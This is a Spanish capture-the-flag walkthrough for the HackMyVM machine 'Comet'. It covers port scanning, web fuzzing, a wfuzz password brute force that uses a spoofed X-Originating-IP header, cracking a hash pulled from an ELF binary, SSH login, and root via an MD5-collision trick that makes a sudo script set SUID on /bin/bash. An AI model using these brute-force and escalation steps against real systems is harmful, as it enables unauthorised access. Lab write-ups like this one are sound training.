# Máquina Comet
### Reconocimiento de la Ip de la máquina víctima



tenía dominio comet.hmv y lo agregué al /etc/hosts

### Puertos abiertos

sudo nmap -sS --disable-arp-ping --min-rate 6000 -p- --open -vvv -Pn 10.0.2.27



### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 10.0.2.27



### Fuzzing Web

feroxbuster --url http://comet.hmv/ -w /usr/share/seclists/Discovery/Web-Content/big.txt



entramos a la web en login.php



### Explotación

Apunté al login.php y lancé el siguiente comando con wfuzz con bypass.

wfuzz -u 'http://comet.hmv/login.php' -d 'username=admin&password=FUZZ' -H 'x-originating-ip:1.2.3.4' -z file,/usr/share/wordlists/rockyou.txt --hc 200 -t 100 -c -v



Inicié sesión y encontré lo siguiente:



los descargué, en el archivo firewall.log.37 encontré el nombre de usuario joe y el archivo firewall_update se trata de un archivo ELF entonces procedí a verificarlo con GHidra

archivo firewa.log.37



archivo ELF firewall_update



en la función main encontré un hash, analizando el hash con hash-identifier:



crackeo con jhontheripper:



me conecté por ssh con el usuario joe y la contraseña encontrada:



### Escalar privilegios

Ejecuté el comando sudo -l



visualizando el script /home/joe/coll



Este script verifica dos archivos y, si cumplen ciertas condiciones, establece el bit SUID en /bin/bash

pasos para ser root:

En kali:

descargamos la herramienta de github:
git clone https://github.com/zhijieshi/md5collgen.git

herramienta para generar hashes MD5 2 iguales en 2 archivos diferentes

cd md5collgen

make

sudo cp md5collgen /usr/local/bin

echo 'HMV' > tmp

md5collgen tmp -o file1 file2

python3 -m http.server 80

En víctima:

en el /home/joe

wget http://10.0.2.15/file1
wget http://10.0.2.15/file2

ejecuto:

sudo /bin/bash /home/joe/coll

bash -p

listo soy root



### user.txt



### root.txt

